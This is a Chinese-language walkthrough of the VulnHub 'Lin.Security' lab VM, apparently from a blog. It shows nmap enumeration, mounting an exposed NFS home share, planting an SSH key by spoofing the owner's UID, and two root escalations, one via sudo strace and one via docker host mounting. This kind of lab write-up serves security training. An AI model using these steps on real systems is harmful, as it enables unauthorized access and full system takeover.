

# Lin.Security

下载地址：https://download.vulnhub.com/linsecurity/lin.security_v1.0.ova

> 使用VB启动，VMware获取不到IP地址

## 实战演练

> 账号密码：bob/secret

靶场的IP地址：`192.168.32.6`


扫描对外端口

```
┌──(root㉿kali)-[~/Desktop]
└─# nmap -sV -p1-65535 192.168.32.6
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-11 21:07 EDT
Nmap scan report for 192.168.32.6
Host is up (0.00023s latency).
Not shown: 65528 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
111/tcp   open  rpcbind  2-4 (RPC #100000)
2049/tcp  open  nfs_acl  3 (RPC #100227)
36323/tcp open  mountd   1-3 (RPC #100005)
41355/tcp open  nlockmgr 1-4 (RPC #100021)
48107/tcp open  mountd   1-3 (RPC #100005)
48441/tcp open  mountd   1-3 (RPC #100005)
MAC Address: 08:00:27:D8:9F:D6 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.85 seconds
                                                            
```

我们看到`rpcbind`运行 和一些正在运行的端口`mountd`。我们应该做的第一件事是枚举所有可用的网络共享：

```
┌──(root㉿kali)-[~/Desktop]
└─# showmount -e 192.168.32.6
Export list for 192.168.32.6:
/home/peter *
```

挂载共享目录

```
┌──(root㉿kali)-[/tmp]
└─# mkdir peter                                                                                                                                                                                                                                     
┌──(root㉿kali)-[/tmp]
└─# mount -t nfs 192.168.32.6:/home/peter ./peter -o nolock
```

查看文件夹内容

```
┌──(root㉿kali)-[/tmp/peter]
└─# ls -al
total 36
drwxr-xr-x  6 cvechecker       1005 4096 Jun 11 21:15 .
drwxrwxrwt 13 root       root       4096 Jun 11 21:11 ..
-rw-r--r--  1 cvechecker       1005  220 Jul  9  2018 .bash_logout
-rw-r--r--  1 cvechecker       1005 3771 Jul  9  2018 .bashrc
drwx------  2 cvechecker       1005 4096 Jul 10  2018 .cache
-rw-rw-r--  1 cvechecker       1005    0 Jul 10  2018 .cloud-locale-test.skip
drwx------  3 cvechecker       1005 4096 Jul 10  2018 .gnupg
drwxrwxr-x  3 cvechecker       1005 4096 Jul 10  2018 .local
-rw-r--r--  1 cvechecker       1005  807 Jul  9  2018 .profile
drwxr-xr-x  2 cvechecker cvechecker 4096 Jun 11 21:15 .ssh

┌──(root㉿kali)-[/tmp/peter]
└─# ls -al
total 32
drwxr-xr-x  5 1001 1005 4096 Jul 10  2018 .
drwxrwxrwt 13 root root 4096 Jun 11 21:11 ..
-rw-r--r--  1 1001 1005  220 Jul  9  2018 .bash_logout
-rw-r--r--  1 1001 1005 3771 Jul  9  2018 .bashrc
drwx------  2 1001 1005 4096 Jul 10  2018 .cache
-rw-rw-r--  1 1001 1005    0 Jul 10  2018 .cloud-locale-test.skip
drwx------  3 1001 1005 4096 Jul 10  2018 .gnupg
drwxrwxr-x  3 1001 1005 4096 Jul 10  2018 .local
-rw-r--r--  1 1001 1005  807 Jul  9  2018 .profile

```

没有权限进行创建

```
┌──(root㉿kali)-[/tmp/peter]
└─# touch .ssh
touch: cannot touch '.ssh': Permission denied
```

创建`cvechecker`用户

```
┌──(root㉿kali)-[/tmp/peter]
└─# useradd cvechecker                        
                                                                                                                                                                                                                                           
┌──(root㉿kali)-[/tmp/peter]
└─# sudo -u cvechecker bash
cvechecker@kali:/tmp/peter$ mkdir .ssh
```

生成公钥

```
┌──(root㉿kali)-[/tmp]
└─# ssh-keygen -t rsa -C "xxxxx@xxxxx.com"
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): /tmp/id_ras
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /tmp/id_ras
Your public key has been saved in /tmp/id_ras.pub
The key fingerprint is:
SHA256:ZODZhucn4oEgnrT/T5bVMcpgwwlAlcl4E10VRJ2ohRU xxxxx@xxxxx.com
The key's randomart image is:
+---[RSA 3072]----+
|  .o=+* ..*E= .  |
|   . Bo*.. o o   |
|... . =** oo     |
|o.o. ..*+.o o    |
| +  . o S+..     |
|  .  . ooo       |
|   .  .+         |
|    . o          |
|     ...         |
+----[SHA256]-----+
```

将公钥复制到共享文件夹里面

```
cvechecker@kali:/tmp/peter$ cp /tmp/id_ras.pub /tmp/peter/.ssh/authorized_keys
```

使用私钥进行登录

```
┌──(root㉿kali)-[/tmp]
└─# ssh -i id_ras peter@192.168.32.6

██╗     ██╗███╗   ██╗   ███████╗███████╗ ██████╗██╗   ██╗██████╗ ██╗████████╗██╗   ██╗
██║     ██║████╗  ██║   ██╔════╝██╔════╝██╔════╝██║   ██║██╔══██╗██║╚══██╔══╝╚██╗ ██╔╝
██║     ██║██╔██╗ ██║   ███████╗█████╗  ██║     ██║   ██║██████╔╝██║   ██║    ╚████╔╝ 
██║     ██║██║╚██╗██║   ╚════██║██╔══╝  ██║     ██║   ██║██╔══██╗██║   ██║     ╚██╔╝  
███████╗██║██║ ╚████║██╗███████║███████╗╚██████╗╚██████╔╝██║  ██║██║   ██║      ██║   
╚══════╝╚═╝╚═╝  ╚═══╝╚═╝╚══════╝╚══════╝ ╚═════╝ ╚═════╝ ╚═╝  ╚═╝╚═╝   ╚═╝      ╚═╝  
Welcome to lin.security | https://in.security | version 1.0

peter@linsecurity:~$ id
uid=1001(peter) gid=1005(peter) groups=1005(peter),999(docker)
```

## 权限提升

### strace提权

查看`sudo`可执行列表

```
peter@linsecurity:~$ sudo -l
Matching Defaults entries for peter on linsecurity:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User peter may run the following commands on linsecurity:
    (ALL) NOPASSWD: /usr/bin/strace
```

使用`strace`进行提权

```
peter@linsecurity:~$ sudo strace -o /dev/null sh
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
```

### docker提权

因为peter账号有**docker**权限

```
peter@linsecurity:~$ docker -v
Docker version 18.03.1-ce, build 9ee9f40
```

所以可以利用docker进行提权

```
docker run -v /:/hostOS -it --rm chrisfosterelli/rootplease
```


